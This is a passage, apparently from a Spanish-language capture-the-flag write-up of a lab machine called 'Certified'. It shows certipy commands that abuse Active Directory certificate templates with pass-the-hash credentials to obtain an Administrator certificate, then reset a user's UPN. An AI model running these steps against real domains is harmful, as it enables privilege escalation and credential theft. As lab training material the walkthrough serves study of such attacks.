 ```bash
certipy req -username ca_operator@certified.htb -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41
```

Una vez ejecutamos, nos exporta el .pfx de Administrator:

![image](../zimages/Pasted_image_20250324001414.png)

Ahora nos dice que necesitamos volver a cambiar el "userPrincipalName" de ca_operator a la normalidad, podemos poder cualquier nombre:

![image](../zimages/Pasted_image_20250324001456.png)

```bash
certipy account update -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn cr0w@certified.htb
```

Y listo:

![image](../zimages/Pasted_image_20250324001543.png)

Ahora nos dice que si nos intentamos autentificar con el certificado (.pfx), nos dará el NTHash con el que podremos entrar a la máquina como Administrator:

